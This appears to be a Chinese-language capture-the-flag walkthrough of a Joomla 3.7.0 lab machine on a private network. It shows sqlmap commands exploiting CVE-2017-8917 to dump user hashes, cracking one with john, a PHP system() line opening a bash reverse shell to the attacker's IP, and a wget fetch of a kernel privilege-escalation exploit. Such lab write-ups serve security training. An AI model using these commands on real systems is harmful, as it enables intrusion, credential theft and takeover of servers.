[TOC]

## 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.162
```

只有一个端口，80

分别进行tcp详细扫描和漏洞扫描





漏洞扫描扫出了一个cve-2017-8917漏洞，并且从下面枚举出的目录可以得知大概用了Joomla，版本号是3.7.0，下面介绍一下Joomla

------

### Joomla

**Joomla**——全球第二大流行的开源 CMS

- **语言**：PHP，数据库常用 MySQL

- **目录结构（关键）**：

  - `/administrator`：后台管理入口（默认 `/administrator/index.php`）
  - `/components`：核心组件及第三方组件
  - `/modules`：模块
  - `/plugins`：插件
  - `/templates`：模板
  - `/configuration.php`：核心配置文件，含数据库账号密码
  - `/images`：媒体上传目录

- **版本**：1.x、2.x、3.x、4.x（当前主流 3/4）

- **用户组**：前台注册用户、作者、编辑、发布者、管理员、超级管理员

- | 攻击面                          | 漏洞类型                           | 说明                                                         |
  | :------------------------------ | :--------------------------------- | :----------------------------------------------------------- |
  | **后台登录** (`/administrator`) | 弱口令、暴力破解、用户枚举         | 后台登录表单无验证码，可爆破。错误信息可区分用户是否存在。   |
  | **组件漏洞**                    | SQL注入、任意文件上传、RCE、LFI    | Joomla 有大量第三方组件，漏洞频发（如 `com_joomlauser`, `com_media` 等） |
  | **核心漏洞**                    | 反序列化、SQL注入、权限绕过        | 历史上出现过严重 RCE（如 CVE-2015-8562、CVE-2023-23752）     |
  | **配置文件泄露**                | `configuration.php` 可读或备份泄露 | 直接获取数据库凭据                                           |
  | **文件上传**                    | 上传限制绕过                       | 攻击者上传 PHP Webshell                                      |
  | **模板/组件编辑**               | 后台任意代码执行                   | 管理员可编辑模板文件，写入 Webshell                          |
  | **REST API / 接口**             | 未授权访问、信息泄露               | Joomla 4 引入了 API，可能存在越权                            |
  | **数据库备份文件**              | `.sql` 等备份泄露                  | 获取用户哈希、敏感数据                                       |

一般用joomscan来深度扫描，joomscan的使用可以通过-h参数查看（--enumerate-users,不知道为什么帮助界面没有这个，这个参数用于枚举用户）类似于用wpscan扫描wordpress一样

------

### 目录枚举

```
gobuster dir -u "http://192.168.174.162" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip
```



和上面的漏洞扫描枚举结果差不多，核心都是Joomla的目录结构

```
joomscan --url http://192.168.174.162
```

除了一个版本号和少数目录外没有其他信息

- 依次查看这些目录



在后台管理员登陆界面确定是Joomla式的CMS，不过直接用一个插件也可以看

所以根据上面漏洞扫描的结果我们也确定了版本呢是3.7.0，在漏洞库里找一下

刚好只有一个是sql注入漏洞，我尝试手动注入没有效果，根据文本里的描述，使用sqlmap

### sqlmap

```
sqlmap -u "http://192.168.174.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```



得到了5个数据库，先尝试最有可能的joomladb

```
sqlmap -u "http://192.168.174.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --D joomladb --tables -p list[fullordering]
```



从爆破出的表中先选择#__users表，这里注意一下，当要指定时，比如-D,-T,-C,加不加引号都可以，但是名称包含#这些特殊符号时，必须加引号，表示是一个字符串（--dbs，--tables,--columns,--dump这些是我们爆破目标时设置的参数，上面大写的参数指定的是已知的）

```
sqlmap -u "http://192.168.174.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --columns -p list[fullordering]
```



现在可以直接查看id，password，username

```
sqlmap -u "http://192.168.174.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" -C "username,password,name" --dump -p list[fullordering]
```



得到账号密码，分别尝试登录80端口的默认界面和/administrator目录后台管理页面

- 尝试对密码进行hash解密

  ```
  echo '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' > 1.txt
  john --wordlist=/usr/share/wordlists/rockyou.txt 1.txt
  ```

  



得到密码snoopy

成功登录，由于这个靶机只开放了80端口，所以要想拿到root，提前是是拿到一个低级shell，所以接下来尝试能不能上传一些东西，可以执行反弹shell

- 经过点击多个页面后，发现了一个可以上传的地方





两个随便点进去一个



发现我们可以上传文件，当然也可以编辑左侧的文件，这里我尝试上传，但是就是不允许php文件，不知道为什么，不过既然可以直接编辑，我们也可以直接对左侧文件进行改动，加入我们的反弹shell

```
system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.174.128/4444 0>&1'")
```



选择component.php文件，这种反弹shell最好加在文件头或者文件尾，不然可能不生效

- 这里关于bash -c到底要不要加要说一下，如果是终端直接输入，可以不用写-c，如果是代码里调用（PHP exec/python os.system等，命令注入）优先带-c，兼容性更强，不然很可能把/dev/tcp当成某个文件路径，而不是当成bash的专属语法



文件路径为

```
http://192.168.174.162/templates/beez3/component.php
```

在本地打开监听，直接访问



成功拿到shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
(Ctrl+z)stty raw -echo; fg
```

得到一个功能完整的终端

```
uname -a
cat /etc/issue
cat /prov/version
```



```
searchsploit kernel 4.4.0-21
searchsploit Ubuntu 16.04
```



尝试了许多，这个可以利用，是4.4通用漏洞，也比较符合banben

```
searchsploit -m 39772.txt
```



这个txt文件给出了怎么利用，已经漏洞验证的脚本下载地址，下载道本地后

```
python3 -c http.server 8081
```

开启http服务，在靶机执行(要在/tmp目录)

```
wget http://192.168.174.128/39772.zip
unzip 39772.zip
```

